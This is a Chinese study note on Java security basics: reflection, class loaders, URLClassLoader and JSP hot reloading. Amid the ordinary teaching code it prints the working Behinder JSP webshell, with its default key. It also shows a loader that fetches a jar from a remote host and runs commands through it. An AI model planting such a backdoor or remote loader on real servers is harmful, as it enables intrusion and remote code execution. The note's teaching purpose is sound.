





# Java安全基础

## Note

### 类和对象的关系

类是对象的抽象，而对象是类的具体实例。类是抽象的，不占用内存，而对象是具体的，占用存储空间。类是用于创建对象的蓝图，它是一个定义包括在特定类型的对象中的方法和变量的软件模板。

类与对象的关系就如模具和铸件的关系 类的实例化结果就是对象，而对一类对象的抽象就是类，类描述了一组有相同属性和相同方法的对象。

### class类的newInstance方法

class的newInstance()方法,需要我们类中存在无参的构造器，并且能直接访问，它通过无参的构造器来实例化，而一旦我们类中不存在无参构造器，那么第一种方法就不行了

### getMethods 和 getDeclaredMethods 方法的区别

getMethods：获取当前类或父类或父接口的 **public** 修饰的字段；包含接口中 **default** 修饰的方法 (JDK1.8)。

getDeclaredMethods： 获取**当前类的所有方法**；包括 protected/默认/private 修饰的方法；不包括父类 、接口 public 修饰的方法。

### 反射Runtime.exec和ProcessBuilder区别

Rutime无需构造器newInstance实例化，因为getRuntime方法本身会返回一个Runtime对象；而ProcessBuilder需要先反射获取有参构造器，再通过构造器进行实例化

> RunTime是JVM负责实例化的,且使用了单例设计模式,必须通过RunTime内部的getRuntime()方法获取实例化对象

### Java接口

接口（英文：Interface），在JAVA编程语言中是一个抽象类型，是抽象方法的集合，接口通常以interface来声明。一个类通过继承接口的方式，从而来继承接口的抽象方法。

接口并不是类，编写接口的方式和类很相似，但是它们属于不同的概念。类描述对象的属性和方法。接口则包含类要实现的方法。

除非实现接口的类是抽象类，否则该类要定义接口中的所有方法。

接口无法被实例化，但是可以被实现。一个实现接口的类，必须实现接口内所描述的所有方法，否则就必须声明为抽象类。另外，在 Java 中，接口类型可用来声明一个变量，他们可以成为一个空指针，或是被绑定在一个以此接口实现的对象。

### transient关键字

transient是短暂的意思。对于transient 修饰的成员变量，在类的实例对象的序列化处理过程中会被忽略。 因此，transient变量不会贯穿对象的序列化和反序列化，生命周期仅存于调用者的内存中而不会写到磁盘里进行持久化。

transient是Java语言的关键字，用来表示一个成员变量不是该对象序列化的一部分。当一个对象被序列化的时候，transient型变量的值不包括在序列化的结果中。而非transient型的变量是被包括进去的。 注意static修饰的静态变量天然就是不可序列化的。


## ClassLoader（类加载机制）

Java是一个依赖于`JVM`（Java虚拟机）实现的跨平台的开发语言。Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。

**JVM架构图：**


### Java类

Java是编译型语言，我们编写的java文件需要编译成后class文件后才能够被JVM运行

**示例代码：**

```java
public class Main {
    public static void main(String[] args) {
        System.out.println("Hello world!");
    }
}
```

可通过`javap`反汇编class文件，或者通过hexdump查看二进制数据


JVM在执行`TestHelloWorld`之前会先解析class二进制内容，JVM执行的其实就是如上`javap`命令生成的字节码。


### ClassLoader

​	一切的Java类都必须经过JVM加载后才能运行，而`ClassLoader`的主要作用就是Java类文件的加载。

在JVM类加载器中最顶层的是`Bootstrap ClassLoader（引导类加载器）`、`Extension ClassLoader（扩展类加载器）`、`App ClassLoader（系统类加载器）`，`AppClassLoader`是默认的类加载器

如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。


值得注意的是某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader（引导类加载器）`加载（该类加载器实现于JVM层，采用C++编写），我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`。

`ClassLoader`类有如下核心方法：

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）

### Java类动态（显式）加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new`类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

**常用的类动态加载方式：**

```java
// 反射加载TestHelloWorld示例
Class.forName("com.y5neko.sec.classloader.TestHelloWorld");

// ClassLoader加载TestHelloWorld示例
this.getClass().getClassLoader().loadClass("com.y5neko.sec.classloader.TestHelloWorld");
```

`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用`Class.forName("类名", 是否初始化类, 类加载器)`，而`ClassLoader.loadClass`默认不会初始化类方法。

### ClassLoader类加载流程

以一个Java的HelloWorld来学习`ClassLoader`。

`ClassLoader`加载`com.y5neko.sec.classloader.TestHelloWorld`类`loadClass`重要流程如下：

1. `ClassLoader`会调用`public Class<?> loadClass(String name)`方法加载`com.y5neko.sec.classloader.TestHelloWorld`类。
2. 调用`findLoadedClass`方法检查`TestHelloWorld`类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。
3. 如果创建当前`ClassLoader`时传入了父类加载器（`new ClassLoader(父类加载器)`）就使用父类加载器加载`TestHelloWorld`类，否则使用JVM的`Bootstrap ClassLoader`加载。
4. 如果上一步无法加载`TestHelloWorld`类，那么调用自身的`findClass`方法尝试加载`TestHelloWorld`类。
5. 如果当前的`ClassLoader`没有重写了`findClass`方法，那么直接返回类加载失败异常。如果当前类重写了`findClass`方法并通过传入的`com.y5neko.sec.classloader.TestHelloWorld`类名找到了对应的类字节码，那么应该调用`defineClass`方法去JVM中注册该类。
6. 如果调用loadClass的时候传入的`resolve`参数为true，那么还需要调用`resolveClass`方法链接类，默认为false。
7. 返回一个被JVM加载后的`java.lang.Class`类对象。


### 自定义ClassLoader

`java.lang.ClassLoader`是所有的类加载器的父类，`java.lang.ClassLoader`有非常多的子类加载器，比如我们用于加载jar包的`java.net.URLClassLoader`其本身通过继承`java.lang.ClassLoader`类，重写了`findClass`方法从而实现了加载目录class文件甚至是远程资源文件。

既然已知ClassLoader具备了加载类的能力，那么我们不妨尝试下写一个自己的类加载器来实现加载自定义的字节码（这里以加载`TestHelloWorld`类为例）并调用`hello`方法。

如果`com.y5neko.sec.TestHelloWorld`类存在的情况下，我们可以使用如下代码即可实现调用`hello`方法并输出：

```java
TestHelloWorld t = new TestHelloWorld();
String str = t.hello();
System.out.println(str);
```

但是如果`com.y5neko.sec.classloader.TestHelloWorld`根本就不存在于我们的`classpath`，那么我们可以使用自定义类加载器重写`findClass`方法，然后在调用`defineClass`方法的时候传入`TestHelloWorld`类的字节码的方式来向JVM中定义一个`TestHelloWorld`类，最后通过反射机制就可以调用`TestHelloWorld`类的`hello`方法了。

**测试自定义ClassLoader：**

```java
package com.y5neko.sec.classloader;

import java.lang.reflect.Method;

public class TestClassLoader extends ClassLoader {
    // TestHelloWorld类名
    public static String testClassName = "com.y5neko.sec.classloader.TestHelloWorld";

    //TestHelloWorld类的字节码
    private static final byte[] testClassBytes = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
            16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
            101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
            1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
            101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
            114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
            32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
            115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
            116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
            0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
            1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
            0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
            0, 0, 0, 2, 0, 12
    };

    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException {
        // 只处理TestHelloWorld类
        if (name.equals(testClassName)) {
            // 调用JVM的native方法定义TestHelloWorld类
            return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
        }

        //其他类通过super关键字调用父类的findClass方法
        return super.findClass(name);
    }

    public static void main(String[] args) {
        //创建自定义类加载器
        TestClassLoader loader = new TestClassLoader();

        try{
            //使用自定义的类加载器”loader“中的loadClass加载TestHelloWorld类到testClass变量
            Class testClass = loader.loadClass(testClassName);

            //反射创建TestHelloWorld类，等价于”TestHelloWorld t = new TestHelloWorld();“
            Object testInstance = testClass.newInstance();

            //反射获取hello方法
            Method method = testInstance.getClass().getMethod("hello");

            //反射调用hello方法，等价于”String str = t.hello();“
            String str = (String) method.invoke(testInstance);

            System.out.println(str);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

### URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**URLClassLoader调用远程方法实例：**

```java
package com.y5neko.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;
public class TestURLClassLoader {
    public static void main(String[] args) {
        try {
            //定义远程jar包路径
            URL url = new URL("https://www.ysneko.com/CMD.jar");
            System.out.println(url);

            //创建URLClassLoader对象，并加载远程jar包
            URLClassLoader ucl = new URLClassLoader(new URL[] {url});
            System.out.println(ucl);

            String cmd = "calc";

            //通过URLClassLoader加载远程jar包中的CMD类
            Class<?> cmdClass = ucl.loadClass("CMD");

            //调用CMD类中的exec方法，等同于“Process process = CMD.exec(cmd);”
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null,cmd);

            //获取命令执行结果的输入流
            InputStream in = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;

            // 读取命令执行结果
            while ((a = in.read(b)) != -1) {
                baos.write(b, 0, a);
            }

            System.out.println(baos);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

**远程jar包中的CMD类：**

```java
import java.io.IOException;

public class CMD {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }

}
```


### 类加载隔离

创建类加载器的时候可以指定该类加载的父类加载器，ClassLoader是有隔离机制的，不同的ClassLoader可以加载相同的Class（两者必须是非继承关系），同级ClassLoader跨类加载器调用方法时必须使用反射。


### 跨类加载器加载

RASP和IAST经常会用到跨类加载器加载类的情况，因为RASP/IAST会在任意可能存在安全风险的类中插入检测代码，因此必须得保证RASP/IAST的类能够被插入的类所使用的类加载正确加载，否则就会出现ClassNotFoundException，除此之外，跨类加载器调用类方法时需要特别注意一个基本原则：

**ClassLoader A和ClassLoader B可以加载相同类名的类，但是ClassLoader A中的Class A和ClassLoader B中的Class A是完全不同的对象，两者之间调用只能通过反射。**

**跨类加载器实例：**

```java
package com.y5neko.sec.classloader;

import java.lang.reflect.Method;

import static com.y5neko.sec.classloader.TestClassLoader.TEST_CLASS_BYTES;
import static com.y5neko.sec.classloader.TestClassLoader.TEST_CLASS_NAME;

public class TestCrossClassLoader {

    public static class ClassLoaderA extends ClassLoader {

        public ClassLoaderA(ClassLoader parent) {
            super(parent);
        }

        {
            // 加载类字节码
            defineClass(TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length);
        }

    }

    public static class ClassLoaderB extends ClassLoader {

        public ClassLoaderB(ClassLoader parent) {
            super(parent);
        }

        {
            // 加载类字节码
            defineClass(TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length);
        }

    }

    public static void main(String[] args) throws Exception {
        // 父类加载器
        ClassLoader parentClassLoader = ClassLoader.getSystemClassLoader();

        // A类加载器
        ClassLoaderA aClassLoader = new ClassLoaderA(parentClassLoader);

        // B类加载器
        ClassLoaderB bClassLoader = new ClassLoaderB(parentClassLoader);

        // 使用A/B类加载器加载同一个类
        Class<?> aClass  = Class.forName(TEST_CLASS_NAME, true, aClassLoader);
        Class<?> aaClass = Class.forName(TEST_CLASS_NAME, true, aClassLoader);
        Class<?> bClass  = Class.forName(TEST_CLASS_NAME, true, bClassLoader);

        // 比较A类加载器和B类加载器加载的类是否相等
        System.out.println("aClass == aaClass：" + (aClass == aaClass));
        System.out.println("aClass == bClass：" + (aClass == bClass));

        System.out.println("\n" + aClass.getName() + "方法清单：");

        // 获取该类所有方法
        Method[] methods = aClass.getDeclaredMethods();

        for (Method method : methods) {
            System.out.println(method);
        }

        // 创建类实例
        Object instanceA = aClass.newInstance();

        // 获取hello方法
        Method helloMethod = aClass.getMethod("hello");

        // 调用hello方法
        String result = (String) helloMethod.invoke(instanceA);

        System.out.println("\n反射调用：" + TEST_CLASS_NAME + "类" + helloMethod.getName() + "方法，返回结果：" + result);
    }

}
```

执行输出结果：

```java
//A类加载器和B类加载器加载的类不同
aClass == aaClass：true
aClass == bClass：false

com.y5neko.sec.classloader.TestHelloWorld方法清单：
public java.lang.String com.y5neko.sec.classloader.TestHelloWorld.hello()

反射调用：com.y5neko.sec.classloader.TestHelloWorld类hello方法，返回结果：Hello World~
```

### JSP自定义类加载后门

以`冰蝎`为首的JSP后门利用的就是自定义类加载实现的，冰蝎的客户端会将待执行的命令或代码片段通过动态编译成类字节码并加密后传到冰蝎的JSP后门，后门会经过AES解密得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过该类重写的`equals`方法实现恶意攻击，其中`equals`方法传入的`pageContext`对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

**冰蝎JSP后门：**

```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```

**冰蝎命令执行类反编译：**


### JSP类加载

JSP是JavaEE中的一种常用的脚本文件，可以在JSP中调用Java代码，实际上经过编译后的jsp就是一个Servlet文件，JSP和PHP一样可以实时修改。

众所周知，Java的类是不允许动态修改的（这里特指新增类方法或成员变量），之所以JSP具备热更新的能力，实际上借助的就是自定义类加载行为，当Servlet容器发现JSP文件发生了修改后就会创建一个新的类加载器来替代原类加载器，而被替代后的类加载器所加载的文件并不会立即释放，而是需要等待GC。

**模拟jsp文件动态加载程序**

```java
package com.y5neko.sec.classloader;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.io.File;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;

public class TestJSPClassLoader {

    /**
     * 缓存JSP文件和类加载，刚jsp文件修改后直接替换类加载器实现JSP类字节码热加载
     */
    private final Map<File, JSPClassLoader> jspClassLoaderMap = new HashMap<File, JSPClassLoader>();

    /**
     * 创建用于测试的test.jsp类字节码，类代码如下：
     * <pre>
     * package com.y5neko.sec.classloader;
     *
     * public class test_jsp {
     *     public void _jspService() {
     *         System.out.println("Hello...");
     *     }
     * }
     * </pre>
     *
     * @param className 类名
     * @param content   用于测试的输出内容，如：Hello...
     * @return test_java类字节码
     * @throws Exception 创建异常
     */
    public static byte[] createTestJSPClass(String className, String content) throws Exception {
        // 使用Javassist创建类字节码
        ClassPool classPool = ClassPool.getDefault();

        // 创建一个类，如：com.y5neko.sec.classloader.test_jsp
        CtClass ctServletClass = classPool.makeClass(className);

        // 创建_jspService方法
        CtMethod ctMethod = new CtMethod(CtClass.voidType, "_jspService", new CtClass[]{}, ctServletClass);
        ctMethod.setModifiers(Modifier.PUBLIC);

        // 写入hello方法代码
        ctMethod.setBody("System.out.println(\"" + content + "\");");

        // 将hello方法添加到类中
        ctServletClass.addMethod(ctMethod);

        // 生成类字节码
        byte[] bytes = ctServletClass.toBytecode();

        // 释放资源
        ctServletClass.detach();

        return bytes;
    }

    /**
     * 检测jsp文件是否改变，如果发生了修改就重新编译jsp并更新该jsp类字节码
     *
     * @param jspFile   JSP文件对象，因为是模拟的jsp文件所以这个文件不需要存在
     * @param className 类名
     * @param bytes     类字节码
     * @param parent    JSP的父类加载
     */
    public JSPClassLoader getJSPFileClassLoader(File jspFile, String className, byte[] bytes, ClassLoader parent) {
        JSPClassLoader jspClassLoader = this.jspClassLoaderMap.get(jspFile);

        // 模拟第一次访问test.jsp时jspClassLoader是空的，因此需要创建
        if (jspClassLoader == null) {
            jspClassLoader = new JSPClassLoader(parent);
            jspClassLoader.createClass(className, bytes);

            // 缓存JSP文件和所使用的类加载器
            this.jspClassLoaderMap.put(jspFile, jspClassLoader);

            return jspClassLoader;
        }

        // 模拟第二次访问test.jsp，这个时候内容发生了修改，这里实际上应该检测文件的最后修改时间是否相当，
        // 而不是检测是否是0，因为当jspFile不存在的时候返回值是0，所以这里假设0表示这个文件被修改了，
        // 那么需要热加载该类字节码到类加载器。
        if (jspFile.lastModified() == 0) {
            jspClassLoader = new JSPClassLoader(parent);
            jspClassLoader.createClass(className, bytes);

            // 缓存JSP文件和所使用的类加载器
            this.jspClassLoaderMap.put(jspFile, jspClassLoader);
            return jspClassLoader;
        }

        return null;
    }

    /**
     * 使用动态的类加载器调用test_jsp#_jspService方法
     *
     * @param jspFile   JSP文件对象，因为是模拟的jsp文件所以这个文件不需要存在
     * @param className 类名
     * @param bytes     类字节码
     * @param parent    JSP的父类加载
     */
    public void invokeJSPServiceMethod(File jspFile, String className, byte[] bytes, ClassLoader parent) {
        JSPClassLoader jspClassLoader = getJSPFileClassLoader(jspFile, className, bytes, parent);

        try {
            // 加载com.y5neko.sec.classloader.test_jsp类
            Class<?> jspClass = jspClassLoader.loadClass(className);

            // 创建test_jsp类实例
            Object jspInstance = jspClass.newInstance();

            // 获取test_jsp#_jspService方法
            Method jspServiceMethod = jspClass.getMethod("_jspService");

            // 调用_jspService方法
            jspServiceMethod.invoke(jspInstance);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        TestJSPClassLoader test = new TestJSPClassLoader();

        String      className   = "com.y5neko.sec.classloader.test_jsp";
        File        jspFile     = new File("/data/test.jsp");
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();

        // 模拟第一次访问test.jsp文件自动生成test_jsp.java
        byte[] testJSPClass01 = createTestJSPClass(className, "Hello y5neko!");

        test.invokeJSPServiceMethod(jspFile, className, testJSPClass01, classLoader);

        // 模拟修改了test.jsp文件，热加载修改后的test_jsp.class
        byte[] testJSPClass02 = createTestJSPClass(className, "Hello Y5neKO!");
        test.invokeJSPServiceMethod(jspFile, className, testJSPClass02, classLoader);
    }

    /**
     * JSP类加载器
     */
    static class JSPClassLoader extends ClassLoader {

        public JSPClassLoader(ClassLoader parent) {
            super(parent);
        }

        /**
         * 创建类
         *
         * @param className 类名
         * @param bytes     类字节码
         */
        public void createClass(String className, byte[] bytes) {
            defineClass(className, bytes, 0, bytes.length);
        }

    }

}
```

该示例程序通过Javassist动态生成了两个不同的`com.y5neko.sec.classloader.test_jsp`类字节码，模拟JSP文件修改后的类加载，核心原理就是**检测到JSP文件修改后动态替换类加载器**，从而实现JSP热加载，具体的处理逻辑如下（第3和第4部未实现，使用了Javassist动态创建）：

1. 模拟客户端第一次访问test.jsp；
2. 检测是否已缓存了test.jsp的类加载；
3. ~~Servlet容器找到test.jsp文件并编译成test_jsp.java~~；
4. ~~编译成test_jsp.class文件~~；
5. 创建test.jsp文件专用的类加载器`jspClassLoader`，并缓存到`jspClassLoaderMap`对象中；
6. `jspClassLoader`加载test_jsp.class字节码并创建`com.y5neko.sec.classloader.test_jsp`类；
7. `jspClassLoader`调用`com.y5neko.sec.classloader.test_jsp`类的`_jspService`方法；
8. 输出`Hello y5neko!`；
9. 模拟客户端第二次访问test.jsp；
10. 假设test.jsp文件发生了修改，重新编译test.jsp并创建一个新的类加载器`jspClassLoader`加载新的类字节码；
11. 使用新创建的`jspClassLoader`类加载器调用`com.y5neko.sec.classloader.test_jsp`类的`_jspService`方法；
12. 输出`Hello Y5neKO`；


## Java反射机制

Java反射(`Reflection`)是Java非常重要的动态特性，通过使用反射我们不仅可以获取到任何类的成员方法(`Methods`)、成员变量(`Fields`)、构造方法(`Constructors`)等信息，还可以动态创建Java类实例、调用任意的类方法、修改任意的类成员变量值等。Java反射机制是Java语言的动态性的重要体现，也是Java的各种框架底层实现的灵魂。

> Java 的**反射机制**是指在运行状态中，对于任意一个类都能够知道这个类所有的属性和方法； 并且对于任意一个对象，都能够调用它的任意一个方法；这种动态获取信息以及动态调用对象方法的功能成为Java语言的反射机制。
>
> 而我们之前在上面介绍的运用new关键字去实例化类的过程就叫做**正射**。那么假如，我是说如果我们一开始并不知道我们要初始化的类对象是什么，那么阁下该如何应对呢?
>
> 所以总的来说，就是当我在程序运行前并不知道我们要实例什么类的时候，我们就需要运用反射，通过反射我们可以获取这个类的原型，然后为所欲为。


### 获取Class对象

Java反射操作的是`java.lang.Class`对象，所以我们需要先想办法获取到Class对象，通常我们有如下几种方式获取一个类的Class对象：

1. `类名.class`，如:`com.y5neko.sec.classloader.TestHelloWorld.class`。
2. `Class.forName("com.y5neko.sec.classloader.TestHelloWorld")`。
3. `classLoader.loadClass("com.y5neko.sec.classloader.TestHelloWorld");`

#### **获取Runtime类Class对象代码片段**

```java
String className     = "java.lang.Runtime";
Class  runtimeClass1 = Class.forName(className);
Class  runtimeClass2 = java.lang.Runtime.class;
Class  runtimeClass3 = ClassLoader.getSystemClassLoader().loadClass(className);
```

```java
//1.使用class.forName()方法
Class p=Class.forName("test.phone"); //里面要填:类所在的包名+类名

//2.使用实例化对象的getClass()方法
phone p=new phone(); //实例化对象
Class p1=p.getClass();//通过实例化对象来获取完整类的原型

